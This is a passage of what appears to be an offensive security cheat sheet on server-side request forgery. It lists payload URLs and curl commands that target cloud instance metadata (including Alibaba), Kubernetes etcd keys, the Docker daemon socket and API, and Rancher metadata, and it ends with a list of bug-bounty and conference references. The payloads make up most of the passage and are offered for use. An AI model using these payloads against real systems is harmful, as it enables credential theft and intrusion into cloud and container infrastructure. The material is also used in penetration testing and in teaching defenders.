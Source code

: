 ```powershell
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
```

### SSRF URL for Alibaba

```powershell
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```

### SSRF URL for Kubernetes ETCD

Can contain API keys and internal ip and ports

```powershell
curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true
```

### SSRF URL for Docker

```powershell
http://127.0.0.1:2375/v1.24/containers/json

Simple example
docker run -ti -v /var/run/docker.sock:/var/run/docker.sock bash
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/containers/json
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/images/json
```

More info:

- Daemon socket option: https://docs.docker.com/engine/reference/commandline/dockerd/#daemon-socket-option
- Docker Engine API: https://docs.docker.com/engine/api/latest/

### SSRF URL for Rancher

```powershell
curl http://rancher-metadata/<version>/<path>
```

More info: https://rancher.com/docs/rancher/v1.6/en/rancher-services/metadata-service/


## References

- [AppSecEU15-Server_side_browsing_considered_harmful.pdf](https://www.agarri.fr/docs/AppSecEU15-Server_side_browsing_considered_harmful.pdf)
- [Extracting AWS metadata via SSRF in Google Acquisition - tghawkins - 2017-12-13](https://hawkinsecurity.com/2017/12/13/extracting-aws-metadata-via-ssrf-in-google-acquisition/)
- [ESEA Server-Side Request Forgery and Querying AWS Meta Data](http://buer.haus/2016/04/18/esea-server-side-request-forgery-and-querying-aws-meta-data/) by Brett Buerhaus
- [SSRF and local file read in video to gif converter](https://hackerone.com/reports/115857)
- [SSRF in https://imgur.com/vidgif/url](https://hackerone.com/reports/115748)
- [SSRF in proxy.duckduckgo.com](https://hackerone.com/reports/358119)
- [Blind SSRF on errors.hackerone.net](https://hackerone.com/reports/374737)
- [SSRF on *shopifycloud.com](https://hackerone.com/reports/382612)
- [Hackerone - How To: Server-Side Request Forgery (SSRF)](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF)
- [Awesome URL abuse for SSRF by @orange_8361 #BHUSA](https://twitter.com/albinowax/status/890725759861403648)